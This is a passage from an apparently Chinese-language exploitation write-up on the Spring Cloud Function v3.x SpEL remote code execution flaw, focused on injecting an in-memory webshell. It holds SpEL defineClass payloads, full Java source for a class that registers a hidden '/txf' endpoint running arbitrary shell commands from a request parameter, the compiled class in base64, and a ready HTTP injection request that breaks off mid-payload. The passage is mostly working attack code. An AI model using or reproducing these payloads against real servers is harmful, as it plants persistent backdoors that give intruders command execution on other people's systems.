QAAAAEAAAABsQAAAAEADAAAAAYAAQAAAAsACAAPAAoAAQALAAAATwACAAEAAAASuAACEgO2AARXpwAISyq2AAaxAAEAAAAJAAwABQACAAwAAAAWAAUAAAAEAAkABwAMAAUADQAGABEACAAQAAAABwACTAcAEQQAAQASAAAAAgAT'),T(org.springframework.util.ClassUtils).getDefaultClassLoader())
Connection: close
Content-Length: 9

any

```



### 打内存马

下面的打内存马也基于"Spring Cloud Function v3.x SpEL RCE"进行漏洞回显研究构造测试：

```
{T(org.springframework.cglib.core.ReflectUtils).defineClass('m',T(org.springframework.util.Base64Utils).decodeFromString(''),newjavax.management.loading.MLet(newjava.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader()))}

```

m为类名，doInject()构造方法进行注入内存Shell：

```
{T(org.springframework.cglib.core.ReflectUtils).defineClass('m',T(org.springframework.util.Base64Utils).decodeFromString(''),T(org.springframework.util.ClassUtils).getDefaultClassLoader().doInject()}

```

Evil.java代码如下：

```
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.Method;
import java.nio.charset.Charset;

public class Evil {
    public Evil() throws Exception {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        // 通过反射获得该类的test方法
        Method method2 = Evil.class.getMethod("test");
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/txf");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        Evil injectToController = new Evil("aaa");
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    }
    static {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = null;
        try {
            method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        // 通过反射获得该类的test方法
        Method method2 = null;
        try {
            method2 = Evil.class.getMethod("test");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/txf");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        Evil injectToController = new Evil("aaa");
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    }
    private Evil(String aaa) {
    }

    public void test() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes)(RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes)(RequestContextHolder.currentRequestAttributes())).getResponse();
        String code = request.getParameter("code");
        if(code != null){
            StringBuilder result = new StringBuilder();
            Process process = null;
            BufferedReader bufrIn = null;
            BufferedReader bufrError = null;
            response.setCharacterEncoding("utf-8");
            response.setContentType("text/html,charset=utf-8");
            PrintWriter writer = response.getWriter();
            try {
                ProcessBuilder builder = null;
                if (System.getProperty("os.name").toLowerCase().contains("win")){
                    builder = new ProcessBuilder(new String[]{"cmd.exe","/c",code});
                    Process start = builder.start();
                    bufrIn = new BufferedReader(new InputStreamReader(start.getInputStream(), Charset.forName("GBK")));
                    bufrError = new BufferedReader(new InputStreamReader(start.getInputStream(),Charset.forName("GBK")));
                }else {
                    builder = new ProcessBuilder(new String[]{"/bin/sh","-c",code});
                    Process start = builder.start();
                    bufrIn = new BufferedReader(new InputStreamReader(start.getInputStream(), Charset.forName("UTF-8")));
                    bufrError = new BufferedReader(new InputStreamReader(start.getInputStream(),Charset.forName("UTF-8")));
                }
                String line;
                while ((line = bufrIn.readLine()) != null){
                    result.append(line).append('\n').append("</p >");
                }
                while ((line = bufrError.readLine()) != null){
                    result.append(line).append('\n').append("</p >");
                }
                System.out.println(result);
                writer.println(result);
                writer.flush();
                writer.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
}

```

编译并对class进行base64编码处理：



```
yv66vgAAADQBHQoATACSCgCTAJQIAJULAJYAlwcAmAcAmQsABQCaCACbCgALAJwIAJ0HAJ4KAAsAnwoAoAChBwCiCABoCgALAKMHAKQHAKUIAKYKABEApwcAqAcAqQoAFQCqBwCrCgAYAKwIAGUKAA4ArQoABgCuBwCvCgAdALAKAB0AsQgAfAsAsgCzBwC0CgAiAJIIALULALYAtwgAuAsAtgC5CwC2ALoIALsKALwAvQoAEgC+CAC/CgASAMAHAMEIAMIIAMMKAC4ApwoALgDEBwDFBwDGCgDHAMgIAMkKAMoAywoANADMCgAzAM0IAM4IAM8IANAKADMA0QoAIgDSCgAiANMIANQJALwA1QoA1gDXCgDYANcKANgA2QoA2ADaBwDbCgBGANwHAN0KAEgA3AcA3goASgDcBwDfAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMRXZpbDsBAAdjb250ZXh0AQA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0OwEAFW1hcHBpbmdIYW5kbGVyTWFwcGluZwEAVExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nOwEABm1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAHbWV0aG9kMgEAA3VybAEASExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9jb25kaXRpb24vUGF0dGVybnNSZXF1ZXN0Q29uZGl0aW9uOwEAAm1zAQBOTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb247AQAEaW5mbwEAP0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvOwEAEmluamVjdFRvQ29udHJvbGxlcgEACkV4Y2VwdGlvbnMHAOABABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAANhYWEBABJMamF2YS9sYW5nL1N0cmluZzsBABBNZXRob2RQYXJhbWV0ZXJzAQAEdGVzdAEABXN0YXJ0AQATTGphdmEvbGFuZy9Qcm9jZXNzOwEAB2J1aWxkZXIBABpMamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyOwEABGxpbmUBAAFlAQAVTGphdmEvaW8vSU9FeGNlcHRpb247AQAGcmVzdWx0AQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAB3Byb2Nlc3MBAAZidWZySW4BABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAAlidWZyRXJyb3IBAAZ3cml0ZXIBABVMamF2YS9pby9QcmludFdyaXRlcjsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQAEY29kZQEADVN0YWNrTWFwVGFibGUHAKIHAOEHAOIHAKUHALQHAOMHAMUHAOQHAMEHANsBAAg8Y2xpbml0PgEAIUxqYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uOwEAIkxqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbjsHAJgHAJkHAOUHAN0HAN4BAApTb3VyY2VGaWxlAQAJRXZpbC5qYXZhDABNAE4HAOYMAOcA6AEAOW9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLnNlcnZsZXQuRGlzcGF0Y2hlclNlcnZsZXQuQ09OVEVYVAcA6QwA6gDrAQA1b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9XZWJBcHBsaWNhdGlvbkNvbnRleHQBAFJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nDADsAO0BAERvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5zZXJ2bGV0LmhhbmRsZXIuQWJzdHJhY3RIYW5kbGVyTWV0aG9kTWFwcGluZwwA7gDvAQASZ2V0TWFwcGluZ1JlZ2lzdHJ5AQAPamF2YS9sYW5nL0NsYXNzDADwAPEHAOUMAPIA8wEABEV2aWwMAPQA8QEARm9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXR0ZXJuc1JlcXVlc3RDb25kaXRpb24BABBqYXZhL2xhbmcvU3RyaW5nAQAEL3R4ZgwATQD1AQBMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvY29uZGl0aW9uL1JlcXVlc3RNZXRob2RzUmVxdWVzdENvbmRpdGlvbgEANW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9SZXF1ZXN0TWV0aG9kDABNAPYBAD1vcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvDABNAPcMAE0AZAwA+AD5AQBAb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1NlcnZsZXRSZXF1ZXN0QXR0cmlidXRlcwwA+gD7DAD8AP0HAOEMAP4A/wEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyAQAFdXRmLTgHAOIMAQAAZAEAF3RleHQvaHRtbCxjaGFyc2V0PXV0Zi04DAEBAGQMAQIBAwEAB29zLm5hbWUHAQQMAQUA/wwBBgEHAQADd2luDAEIAQkBABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIBAAdjbWQuZXhlAQACL2MMAGkBCgEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIBABlqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyBwDjDAELAQwBAANHQksHAQ0MAO4BDgwATQEPDABNARABAAcvYmluL3NoAQACLWMBAAVVVEYtOAwBEQEHDAESARMMARIBFAEABTwvcCA+DAEVARYHARcMARgBGQcA5AwBGgBODAEbAE4BABNqYXZhL2lvL0lPRXhjZXB0aW9uDAEcAE4BAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24BABBqYXZhL2xhbmcvT2JqZWN0AQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQEAEWphdmEvbGFuZy9Qcm9jZXNzAQATamF2YS9pby9QcmludFdyaXRlcgEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAPG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0Q29udGV4dEhvbGRlcgEAGGN1cnJlbnRSZXF1ZXN0QXR0cmlidXRlcwEAPSgpTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0QXR0cmlidXRlczsBADlvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L3JlcXVlc3QvUmVxdWVzdEF0dHJpYnV0ZXMBAAxnZXRBdHRyaWJ1dGUBACcoTGphdmEvbGFuZy9TdHJpbmc7SSlMamF2YS9sYW5nL09iamVjdDsBAAdnZXRCZWFuAQAlKExqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvT2JqZWN0OwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAlnZXRNZXRob2QBABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQA7KFtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvYmluZC9hbm5vdGF0aW9uL1JlcXVlc3RNZXRob2Q7KVYBAfYoTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXR0ZXJuc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9QYXJhbXNSZXF1ZXN0Q29uZGl0aW9uO0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9jb25kaXRpb24vSGVhZGVyc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9Db25zdW1lc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9Qcm9kdWNlc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0Q29uZGl0aW9uOylWAQAPcmVnaXN0ZXJNYXBwaW5nAQBuKExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvO0xqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7KVYBAApnZXRSZXF1ZXN0AQApKClMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAAtnZXRSZXNwb25zZQEAKigpTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAUc2V0Q2hhcmFjdGVyRW5jb2RpbmcBAA5zZXRDb250ZW50VHlwZQEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7AQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lv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

```

之后注入内存马：

```
POST /functionRouter HTTP/1.1
Host:192.168.17.1:8080
spring.cloud.function.routing-expression:{T(org.springframework.cglib.core.ReflectUtils).defineClass('Evil',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQBHQoATACSCgCTAJQIAJULAJYAlwcAmAcAmQsABQCaCACbCgALAJwIAJ0HAJ4KAAsAnwoAoAChBwCiCABoCgALAKMHAKQHAKUIAKYKABEApwcAqAcAqQoAFQCqBwCrCgAYAKwIAGUKAA4ArQoABgCuBwCvCgAdALAKAB0AsQgAfAsAsgCzBwC0CgAiAJIIALULALYAtwgAuAsAtgC5CwC2ALoIALsKALwAvQoAEgC+CAC/CgASAMAHAMEIAMIIAMMKAC4ApwoALgDEBwDFBwDGCgDHAMgIAMkKAMoAywoANADMCgAzAM0IAM4IAM8IANAKADMA0QoAIgDSCgAiANMIANQJALwA1QoA1gDXCgDYANcKANgA2QoA2ADaBwDbCgBGANwHAN0KAEgA3AcA3goASgDcBwDfAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMRXZpbDsBAAdjb250ZXh0AQA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0OwEAFW1hcHBpbmdIYW5kbGVyTWFwcGluZwEAVExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nOwEABm1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAHbWV0aG9kMgEAA3VybAEASExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9jb25kaXRpb24vUGF0dGVybnNSZXF1ZXN0Q29uZGl0aW9uOwEAAm1zAQBOTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb247AQAEaW5mbwEAP0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvOwEAEmluamVjdFRvQ29udHJvbGxlcgEACkV4Y2VwdGlvbnMHAOABABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAANhYWEBABJMamF2YS9sYW5nL1N0cmluZzsBABBNZXRob2RQYXJhbWV0ZXJzAQAEdGVzdAEABXN0YXJ0AQATTGphdmEvbGFuZy9Qcm9jZXNzOwEAB2J1aWxkZXIBABpMamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyOwEABGxpbmUBAAFlAQAVTGphdmEvaW8vSU9FeGNlcHRpb247AQAGcmVzdWx0AQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAB3Byb2Nlc3MBAAZidWZySW4BABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAAlidWZyRXJyb3IBAAZ3cml0ZXIBABVMamF2YS9pby9QcmludFdyaXRlcjsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQAEY29kZQEADVN0YWNrTWFwVGFibGUHAKIHAOEHAOIHAKUHALQHAOMHAMUHAOQHAMEHANsBAAg8Y2xpbml0PgEAIUxqYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uOwEAIkxqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbjsHAJgHAJkHAOUHAN0HAN4BAApTb3VyY2VGaWxlAQAJRXZpbC5qYXZhDABNAE4HAOYMAOcA6AEAOW9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLnNlcnZsZXQuRGlzcGF0Y2hlclNlcnZsZXQuQ09OVEVYVAcA6QwA6gDrAQA1b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9XZWJBcHBsaWNhdGlvbkNvbnRleHQBAFJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nDADsAO0BAERvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5zZXJ2bGV0LmhhbmRsZXIuQWJzdHJhY3RIYW5kbGVyTWV0aG9kTWFwcGluZwwA7gDvAQASZ2V0TWFwcGluZ1JlZ2lzdHJ5AQAPamF2YS9sYW5nL0NsYXNzD